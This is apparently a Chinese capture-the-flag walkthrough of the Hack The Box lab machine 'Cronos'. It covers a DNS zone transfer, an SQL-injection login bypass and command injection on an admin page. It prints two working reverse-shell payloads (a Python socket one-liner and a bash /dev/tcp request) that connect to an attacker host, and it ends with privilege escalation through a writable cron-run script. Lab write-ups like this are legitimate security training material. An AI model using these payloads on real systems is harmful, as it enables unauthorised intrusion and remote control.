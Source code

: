 ```yaml
---
# Documentation: https://wowchemy.com/docs/managing-content/

title: "Cronos"
linktitle: "Cronos"
date: 2022-05-20T17:31:40+08:00
type: book
summary: ""
test: 
---
```



nmap

```bash
sudo nmap -T4 -Pn -n -r -p- -vv -sV 10.10.10.13
```

![](image/image_6ZLrT3hBaR.png)

访问80，扫了下目录什么也没有。

![](image/image__zp7qiDmEj.png)

53端口，尝试解析靶机的域名

使用nslookup指定靶机为DNS服务器，然后解析靶机的域名

```bash
nslookup 
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.
> 

```

拿到ns1.cronos.htb

使用dig查询DNS记录，DNS服务器存在区域传输漏洞可以使用axfr

<http://t.zoukankan.com/ibyte-p-6114893.html>

```bash
dig axfr cronos.htb @10.10.10.13
```

![](image/image_sAnBS78Ei5.png)

拿到三个子域名，`ns1,www,admin`

添加到`/etc/hosts`

![](image/image_ZULWhSdmer.png)

访问`www.cronos.htb`

![](image/image_AwM3N2EVOb.png)

看了下源码都是跳转到laravel官网，没有发现什么功能

扫web目录，没发现有价值的信息

![](image/image_CaQPkqJaY-.png)

访问`admin.cronos.htb`

![](image/image_z8SCXudxFx.png)

尝试过admin枚举没有成功

SQL注入登录成功

```bash
username：' or 1=1#
password：' or 1=1#
```

![](image/image_6MLEHHFaOE.png)

存在命令执行

```bash
8.8.8.8;id
```

![](image/image_wDMgSlnZEc.png)

反弹shell

```bash
8.8.8.8;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.3",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

或者

```bash
POST /welcome.php HTTP/1.1
Host: admin.cronos.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://admin.cronos.htb
Connection: close
Referer: http://admin.cronos.htb/welcome.php
Cookie: PHPSESSID=r5bp088ag2fp2k38m0rronkfj4
Upgrade-Insecure-Requests: 1

command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.16.3/2333+0>%261'&host=
```

![](image/image_E6MJ1aQBYs.png)

升级交互式shell

```bash
python -c 'import pty;pty.spawn("bash")'

Ctrl+Z

stty raw -echo;fg

Enter
```

提权

使用`pspy32`，检测到`root`每分钟会执行`www-data`的php脚本，`/var/www/laravel/artisan`

![](image/image_QVucIY8EFn.png)

查看`/var/www/laravel/artisan`发现是反弹shell脚本，而`www-data`有该文件读写权限

修改此处

![](image/image_vm1H9V2LXQ.png)

一分钟反弹shell成功

![](image/image_SX4Hn1WC9E.png)
